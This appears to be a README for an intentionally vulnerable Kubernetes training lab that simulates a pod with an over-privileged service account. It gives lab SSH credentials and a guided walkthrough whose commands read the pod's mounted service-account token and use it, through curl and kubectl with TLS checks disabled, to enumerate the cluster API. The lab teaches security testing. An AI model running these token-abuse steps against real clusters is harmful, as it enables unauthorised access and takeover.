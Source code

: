 # Overpowered Service Account

This scenario simulates a pod using a service account with too much privileges over the cluster. You can connect to this pod using SSH:
```bash
ssh pwned@10.10.20.2 -p 30022 # Password: pwned
```

You can continue reading for a guided exploitation or research for yourself and try to own all the nodes without guidance!

## How to exploit this?

Start exploring your level of access (In this scenario is nearly unlimited), an example of how to get all the deployments from the K8S api is provided here:

```bash
curl -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" -k https://10.10.20.2:6443/api/apps/v1/deployments
```

Also, you could just get the `kubectl` binary to ease your enumeration/exploitation:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

Using `kubectl` to get the deployments is as easy as:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get deployments -A
```


## References

- https://kubernetes.io/docs/concepts/overview/kubernetes-api/
- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration#enumeration-cheatsheet
